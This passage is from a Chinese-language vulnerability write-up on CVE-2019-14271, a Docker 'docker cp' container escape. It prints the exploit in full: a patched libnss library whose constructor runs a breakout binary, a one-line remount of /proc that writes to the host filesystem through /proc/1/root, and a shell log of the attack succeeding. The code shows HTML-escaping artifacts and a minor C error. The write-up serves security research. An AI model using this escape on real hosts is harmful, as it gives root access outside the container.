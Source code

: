 该代码通过lief为elf添加新的依赖库。如图6所示执行后再通过ldd命令查看，就可以看到新增的依赖so库。

[![](https://p5.ssl.qhimg.com/t01435f6eeb76f0ac91.png)](https://p5.ssl.qhimg.com/t01435f6eeb76f0ac91.png)

然后需要编写实际的攻击代码。由于除了docker-tar之外，许多linux命令和程序也会使用libnss所以在编写攻击代码时候需要注意检查。

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
void __attribute__((constructor)) back() `{`

FILE *proc_file = fopen("/proc/self/exe","r");
if (proc_file !=NULL)
`{`
fclose(proc_file);
return 0;
`}`
else`{`
system("/breakout");
return ;
`}`

`}`
```

因为docker-tar是namespace外的程序。该程序无法在docker容器的PID namespace内的proc文件系统中找到自身进程。因此可以通过打开/proc/self/exe的方法检测攻击代码是否在docker-tar进程中执行。而使用**__attribute__**((constructor)) 则可以保证恶意代码在so库被加载时即被执行。将该程序编译成a.out放在/tmp下，docker-tar在加载/lib/x86_64-linux-gnu/libnss_files-2.27.so时就会执行breakout程序。

最后是breakout命令的实现，虽然已经可以在namespace外执行任意代码了。但是docker-tar本身经过了chroot。好在docker-tar具有root权限，所以绕过chroot不是什么问题。只需要重新mount proc文件系统，然后通过/proc/`{`PID`}`/root软链接即可访问宿主机文件系统。只需要一行命令即可：

```
mount -t proc none /proc &amp;&amp; echo "hack by chaitin" &gt; /proc/1/root/tmp/hack
```

将上述3个文件写入docker容器的对应位置然后执行docker cp命令。就能在/tmp下看到成功创建的文件。完整攻击流程如下：

```
# cat /tmp/hack # /tmp下目前没有hack文件
cat: /tmp/hack: No such file or directory
#
#
# docker run --rm -d --name "cve-2019-14271" ubuntu:18.04 /bin/sleep 1d #创建受攻击的docker
fe9966b0bbc674eb72c9a27c3f789821a6f0ab2c81ad5d0d5ccbdc111da10272
#
#
# docker cp a.out cve-2019-14271:/tmp # 将攻击程序放在指定目录下，
# docker cp breakout cve-2019-14271:/ # 并替换libnss_files-2.27.so
# docker cp libnss_files.so.2_patch cve-2019-14271:/lib/x86_64-linux-gnu/libnss_files-2.27.so
#
#
# docker cp cve-2019-14271:/var/log logs # 执行docker cp触发漏洞
#
#
# ls -l /tmp/hack # 验证攻击
-rw-r--r-- 1 root root 16 Jun 3 22:18 /tmp/hack
# cat /tmp/hack
hack by chaitin
```
